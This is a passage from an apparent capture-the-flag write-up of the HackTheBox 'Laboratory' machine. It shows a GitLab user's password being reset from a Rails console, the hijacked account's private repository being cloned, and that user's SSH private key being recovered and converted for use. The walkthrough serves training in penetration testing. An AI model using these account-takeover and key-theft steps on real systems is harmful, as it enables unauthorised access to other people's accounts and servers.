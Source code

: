 ```bash
irb(main):004:0> user.save!
Enqueued ActionMailer::DeliveryJob (Job ID: 0f18c1b4-9929-47a5-90d7-ec16a7e6f293) to Sidekiq(mailers) with arguments: "DeviseMailer", "password_change", "deliver_now", #<GlobalID:0x00007fa424ee0668 @uri=#<URI::GID gid://gitlab/User/1>>
=> true
irb(main):005:0> 
```

After changed its password, I was able to login with his account and see other repositories in his shoes, where we found a **SecureDocker** private repo, which called a lot of attention.

![gitlab dexter projects](https://i.imgur.com/sxEzY97.png){: .align-center}

Once we have access to the source code, downloaded its contents and found some interesting information used to build the container and a **SSH key** from dexter under his personal stuff, as mentioned in repo's description.

> CONFIDENTIAL - Secure docker configuration for homeserver. Also some personal stuff, I'll figure that out later.

After cloning it, we were able to see the following information:

```bash
$ git -c http.sslVerify=false clone http://git.laboratory.htb/dexter/securedocker.git  
Cloning into 'securedocker'...
Username for 'https://git.laboratory.htb': dexter
Password for 'https://dexter@git.laboratory.htb': 
warning: redirecting to https://git.laboratory.htb/dexter/securedocker.git/
remote: Enumerating objects: 10, done.
remote: Counting objects: 100% (10/10), done.
remote: Compressing objects: 100% (9/9), done.
remote: Total 10 (delta 0), reused 0 (delta 0), pack-reused 0
Receiving objects: 100% (10/10), done.
```

```bash
$ tree -a -I '.git'
.
├── create_gitlab.sh
├── dexter
│   ├── recipe.url
│   ├── .ssh
│   │   ├── authorized_keys
│   │   └── id_rsa
│   └── todo.txt
└── README.md

2 directories, 6 files
```

Just like we did on [Luanne]({% post_url 2021-01/2021-03-27-htb-luanne %}), we have converted it to an RSA key using the commands below:

```bash
$ chmod 600 id_rsa
$ ssh-keygen -p -m PEM -f ./id_rsa
Key has comment 'root@laboratory'
Enter new passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved with the new passphrase.
```

